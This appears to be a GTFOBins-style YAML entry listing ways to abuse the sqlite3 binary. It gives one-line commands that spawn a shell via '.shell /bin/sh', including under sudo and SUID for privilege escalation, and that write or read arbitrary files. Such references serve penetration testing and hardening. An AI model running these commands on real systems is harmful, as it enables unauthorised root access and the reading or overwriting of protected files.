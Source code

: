 ```yaml
---
functions:
  execute-interactive:
    - code: sqlite3 /dev/null '.shell /bin/sh'
  sudo-enabled:
    - code: sudo sqlite3 /dev/null '.shell /bin/sh'
  suid-limited:
    - code: ./sqlite3 /dev/null '.shell /bin/sh'
  file-write:
    - code: |
        LFILE=file_to_write
        sqlite3 /dev/null -cmd ".output $LFILE" 'select "data";'
  file-read:
    - code: |
        LFILE=file_to_read
        sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
---
```

